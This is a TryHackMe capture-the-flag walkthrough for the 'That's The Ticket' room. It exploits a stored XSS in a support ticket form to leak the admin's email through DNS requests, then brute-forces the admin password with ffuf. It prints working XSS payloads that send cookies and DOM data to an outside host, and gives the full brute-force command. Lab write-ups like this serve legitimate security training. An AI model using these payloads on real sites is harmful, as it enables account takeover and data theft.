










---

## Introduction

- Difficulty: Medium
- Time: 75 mins

> IT Support is going to have a really bad day today, but don't think they're stupid! They have really strict firewalls!
> Using the IT support portal try and make your way into the admin account.

Room Link: [That's The Ticket](https://tryhackme.com/room/thatstheticket)

---

## Reconnaissance

Add the following line at the end of your `/etc/hosts` file to avoid typing the target IP address every time.

```
10.48.168.67 ticket.thm
```

We start with a basic `nmap` scan of the target.



Nothing interesting here, just a web server at port 80. Let's check that.

---

## DNS Data Exfiltration using Stored XSS



There are two options, to Register and Login. We can try to Login with standard default creds, but none works. (I have tried!).

For now, register a test account and let's try to understand the workings of the website. I used these creds `a@b.com:password`. You can use any credentials you like.



We see a ticketing system, with the options to create tickets. Let's just create a ticket and see what happens.



The ticket contents just appear in the textarea. Inspecting the source code, we do see a possibility of a **Stored XSS** attack. Let's see.



Let's check with an XSS payload. I used the following payload as an example.

```html
</textarea><h1>Heading</h1>
```



So our payload works. It means we can perform **Stored XSS** and steal cookies (or creds) from admin account (assuming they are viewing the tickets).

Let's try a data exfiltration attempt by trying to steal our own cookies. First setup an HTTP listener on port 80.

```
$ php -S 0.0.0.0:80
```

Then enter the following payload in the textarea

```html
</textarea>
<script>
fetch("http://192.168.138.93/cookies?="+btoa(document.cookie));
</script>
```

Now if you check the terminal where we setup our HTTP listener, we see the request is made (which means our script did get executed), but there is no content after the `cookies` parameter. Let's see why this is so.



Go to your browser's Dev tools and check for something similar to "Storage" or "Application". Under the "Cookies" section, there is one cookie named `token`. If you see, that cookie has the `HttpOnly` flag set. This means, we cannot access the cookie using JavaScript. It's basically a security feature to stop attackers from stealing cookies using simple XSS payloads (like us!).

So what's the workaround? Maybe we don't need cookies at all. The first question states to get admin's email id.

We need to somehow get the email from the DOM. After analysing the source code of the page, I came up with this. Entering the following in the Dev Tool's console, we get the email.

```javascript
document.getElementById('email').innerHTML
```

We need a payload that extracts this and exfiltrates the data to us (somehow).

Before that, let's verify whether the admin is actually reading the tickets (or visiting the tickets page) or not. To do that, we will use [Webhook](https://webhook.site). Webhook is a website where you can get free public URLs and domains for testing purposes. Just open the website and a free to use public URL will be provided to you.

How to use this in our use case?
1. Copy the DNSHook URL
2. Replace the URL in the following payload with your own URL (after `https://`)

```html
</textarea>
<script>
var url = "https://32a3cd50-c77b-4c13-9d2b-0defe87e8b6d.dnshook.site";
fetch(url);
</script>
```

After entering the payload, you will see many DNS requests (A, AAAA) will show up in the left pane. These requests probably originate from the admin account. But there are no HTTP requests from that. So we have to perform DNS Exfiltration.



We need to extract the email through DNS requests. I crafted the following payload to get the email.

```html
</textarea>
<script>
var domain = "32a3cd50-c77b-4c13-9d2b-0defe87e8b6d.dnshook.site";
var email = document.getElementById('email').innerHTML;
email = email.replace('@', '1');
email = email.replace('.', '2');
fetch("https://" + email + "." + domain);
</script>
```

So if the email is `a@b.com`, the script will fetch `https://a1b2com.32a3cd50-c77b-4c13-9d2b-0defe87e8b6d.dnshook.site`, which we will capture and can get the admin email.



Now just replace the only `1` with `@` and `2` with `.` to get the email.

---

## Bruteforcing admin password

To get the admin's password, we can brute force our way in. To do that, we first need to understand how the login request is structured. Only then we can craft our command. I will use `ffuf` for this.

```
$ ffuf -u http://ticket.thm/login -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "email=REDACTED&password=FUZZ" -w /usr/share/wordlists/rockyou.txt -ac

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://ticket.thm/login
 :: Wordlist         : FUZZ: /usr/share/wordlists/rockyou.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : email=REDACTED&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

******                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 103ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```

We get admin's password. Now we can just login into admin's account. Click on ticket id 1 to get the final flag.


